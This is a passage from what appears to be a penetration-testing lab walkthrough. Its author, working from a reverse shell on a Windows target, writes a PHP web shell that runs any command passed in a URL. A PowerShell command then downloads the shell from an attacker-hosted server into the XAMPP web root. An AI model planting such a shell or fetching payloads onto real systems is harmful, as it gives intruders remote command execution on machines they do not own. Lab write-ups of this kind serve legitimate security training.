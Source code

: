 If we list the users' directory, we'll find the `apache` user account.

```
PS C:\Program Files\LibreOffice\program> dir C:\Users


    Directory: C:\Users


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        5/28/2021   3:53 AM                Administrator                                                         
d-----        7/13/2021   3:19 AM                apache                                                                
d-r---        5/28/2021   3:53 AM                Public                                                                
d-----        7/13/2021   3:35 AM                thecybergeek
```

We can use this to place a PHP webshell into **C:\\xampp\\htdocs** and compromise the `apache` user account, which may have better privilege escalation opportunities.

Let's create a file in the directory we are hosting with our python webserver named **cmd.php** with the following contents:

```php
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
```

Back in our reverse shell on the target system, let's download our PHP shell and place it in **C:\\xampp\\htdocs**.

```
PS C:\Program Files\LibreOffice\program> iwr http://192.168.118.14/cmd.php -OutFile C:\xampp\htdocs\cmd.php
PS C:\Program Files\LibreOffice\program> dir C:\xampp\htdocs\


    Directory: C:\xampp\htdocs


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        7/13/2021   3:18 AM                assets                                                                
d-----        7/13/2021   3:18 AM                css                                                                   
d-----        7/13/2021   3:18 AM                js                                                                    
d-----       10/20/2021   1:51 PM                uploads                                                               
-a----       10/21/2021   9:34 AM             80 cmd.php                                                               
-a----         7/7/2021  10:53 AM           9635 index.php                                                             
-a----         7/7/2021   9:56 AM            835 upload.php                                                            
```